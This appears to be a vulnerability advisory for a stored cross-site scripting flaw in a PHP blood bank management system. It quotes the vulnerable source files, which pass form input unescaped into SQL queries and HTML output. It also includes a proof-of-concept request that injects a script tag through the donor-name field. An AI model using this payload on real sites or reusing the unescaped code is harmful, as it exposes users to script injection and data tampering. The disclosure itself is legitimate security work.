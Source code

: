 # blood-bank-system-in-php-XSS-1

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites:**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

don.php ，bbms.php

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

XSS

## Root Cause

Since the fullname is inserted into the database in don.php, there is no filtering of js code，There is no filtering echo  fullname in the database from bbms.php. 

## Impact

## **Description of the vulnerability**

There is a storage type XSS vulnerability in blood bank system in PHP. via don.php and bbms.php

## don.php

```
$reg="insert into donate (fullname, age,bloodgroup,city,phno,gender) values ('$fullname','$age','$bloodgroup','$city','$phno','$gender')";
$result=mysqli_query($con,$reg);
echo"<script>alert('Your donation request have been registered.Thank you for your kindness. ')</script>";
 }
```

![image-20240919113451679](https://github.com/user-attachments/assets/8212fb7d-26b4-4244-98f7-35f8823cb0cf)

## bbms.php	

![image-20240919113541222](https://github.com/user-attachments/assets/528b5260-9451-475f-9873-8e5b0f7f9bfa)

```
<?php 

session_start();

$conn= mysqli_connect('localhost', 'root', 'root');
mysqli_select_db($conn,'bloodbank');
  $searchq = $_POST['search'];
  $searchqq = $_POST['search2'];
 $statement = "select * from donate where bloodgroup LIKE '%$searchq%' AND city LIKE '%$searchqq%' ";
$result = mysqli_query($conn, $statement);
if(mysqli_num_rows($result)>0)
{
  
     
    while($rows = mysqli_fetch_assoc($result))
  {

    echo "<table style=position:center;width:30cm;>";
     echo "<h1 style=position:relative;>Donor Found Contact him/her</h1>";

    echo "<th>Fullname</th>";
    echo "<th>Bloodgroup You Want</th>";
    echo "<th>Age of Donor</th>";
    echo "<th>Donor City</th>";
    echo "<th>Donor Contact Number</th>";
        echo "<th>Gender</th>";
    echo "</tr>";
    echo "<tr style=position:relative;width:13cm;>";
      $fullname = $rows ['fullname'];
    echo "<td>$fullname</td>";
    echo "<br>";
    $bloodgroup = $rows['bloodgroup'];
    echo "<td>$bloodgroup</td>";
    echo "<br>";
    $age = $rows['age'];
    echo "<td>$age</td>";
    echo "<br>";
    $city = $rows['city'];
    echo "<td>$city</td>";
    echo "<br>";
    $phno = $rows['phno'];
    echo "<td>$phno</td>";
      $gender = $rows['gender'];
    echo "<td>$gender</td>";

    echo "<br>";
    echo "</td>";
    echo "</table>";
	}
}
	 else 
   {
		echo "<script>alert('Donor Not Found')</script>";
    header("Location:js/donate.html");
	}


?>
```

## **Vulnerability recurrence**

### **POC**

Just need to execute the POC and insert the xss code into the database

```
http://bloodbankmgmtsystem/don.php
```

```
fullname=</td><script>alert('xss');</script><td>&age=1&bloodgroup=xss1&city=1&phno=1&gender=1
```

![image-20240921000015162](https://github.com/user-attachments/assets/14356602-79cc-453f-8fe8-cfe5f4addc46)

### Result

We can trigger the XSS vulnerability that was just inserted by accessing the bbms.chp router.

```
http://bloodbankmgmtsystem/bbms.php
```

![image-20240920235844215](https://github.com/user-attachments/assets/2f135fcb-2161-4a12-a3a3-8926ed5331e4)